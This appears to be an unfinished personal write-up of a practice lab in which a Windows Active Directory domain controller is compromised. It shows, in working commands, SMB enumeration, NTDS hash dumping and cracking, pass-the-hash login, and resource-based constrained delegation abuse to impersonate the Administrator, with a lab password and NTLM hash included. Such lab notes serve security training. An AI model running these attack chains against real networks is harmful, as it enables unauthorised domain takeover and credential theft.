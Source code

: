 #InProgress 
```IP
192.168.154.175
```
## Nmap
```
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-25 09:43:12Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125 
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125 
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
```

## Nmap UDP


# Enumeration
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025114625.png?raw=true)
```
enum4linux -a -u "" -p "" 192.168.154.175 && enum4linux -a -u "guest" -p "" 192.168.154.175
```

```index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain                                                                                                
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god                                                                                                                         
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert                                                                                                                                     
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain                                                                                                      
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist                                                                                                                                 
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer                                                                                                                                            
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account                                                                                                                       
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin                                                                                                                                              
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin                                                                                                                                           
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer                                                                                                                                     
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin                                                                                                                                        
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist                                               index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!                                                                                                              
user:[Administrator] rid:[0x1f4]                                                                                                                                                                                                            
user:[Guest] rid:[0x1f5]                                                                                                                                                                                                                    
user:[krbtgt] rid:[0x1f6]                                                                                                                                                                                                                   
user:[M.Mason] rid:[0x44f]                                                                                                                                                                                                                  
user:[K.Keen] rid:[0x450]                                                                                                                                                                                                                   
user:[L.Livingstone] rid:[0x451]                                                                                                                                                                                                            
user:[J.Johnson] rid:[0x452]                                                                                                                                                                                                                
user:[V.Ventz] rid:[0x453]                                                                                                                                                                                                                  
user:[S.Swanson] rid:[0x454]                                                                                                                                                                                                                
user:[P.Parker] rid:[0x455]                                                                                                                                                                                                                 
user:[R.Robinson] rid:[0x456]                                                                                                                                                                                                               
user:[D.Durant] rid:[0x457]                                                                                                                                                                                                                 
user:[G.Goldberg] rid:[0x458] 
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025120730.png?raw=true)
```
smbclient -U 'V.Ventz' --password='HotelCalifornia194!' \\\\192.168.154.175\\'Password Audit'
```

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
```
hashcat -m 1000 -w 3 -a 0 -p : --session=all — username -o ./cracked.out --outfile-format=3 ./secrets.dump.ntds /usr/share/wordlists/rockyou.txt --potfile-path ./hashcat.pot
```
## WINRM
```
nxc winrm 192.168.154.175 -u users.txt -H hashes.txt
```
```
evil-winrm -i 192.168.154.175 -u 'L.Livingstone' -H '19a3a7550ce8c505c2d46b5e39d6f808'
```
Nos deja entrar!
## RDP
pwned!
resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808
No funciona, se desconecta al poco
## HTTP

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025132137.png?raw=true)


## Automated

### Peass
### Mimikatz
### Bloodhound
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025154635.png?raw=true)
Creamos un ordenador en el dominio
```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'Password123!'
```
Modify Delegation rights of ATTACK to impersonate other users
```
python3 rbcd.py -action write -delegate-to "RESOURCEDC$" -delegate-from "ATTACK$" -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
```
requesting TGS
```
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'Password123!' -impersonate Administrator -dc-ip 192.168.154.175
```
exporting the ticket
```
export KRB5CCNAME=$PWD/Administrator.ccache
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025165358.png?raw=true)
Add the domain to /etc/hosts
and connect with psexec
```
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.154.175
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025183317.png?raw=true)
